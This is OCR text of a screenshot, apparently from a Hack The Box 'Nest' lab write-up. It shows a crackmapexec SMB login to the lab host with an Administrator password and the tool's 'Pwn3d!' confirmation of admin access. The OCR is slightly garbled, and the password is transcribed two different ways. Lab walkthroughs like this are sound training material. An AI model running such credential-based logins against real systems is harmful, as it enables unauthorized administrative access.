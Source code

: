 ![](Maszyny/Windows/Nest/Pasted%20image%2020210827235700.png)

-(kali kali)-[~/htb/nest/smb]
crackmapexec smb 10.10.10.178 -u Administrator -p XtH4nkS4P24y1nGX
1 0
SMB
10.10.10.178 445 HTB-NEST
[*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HT
B-NEST) (signing:False) (SMBv1: False)
SMB
10.10.10.178 445 HTB-NEST
[+] HTB-NEST\Administrator:XtH4nkS4Pl4y1nGX (Pwn3d!)
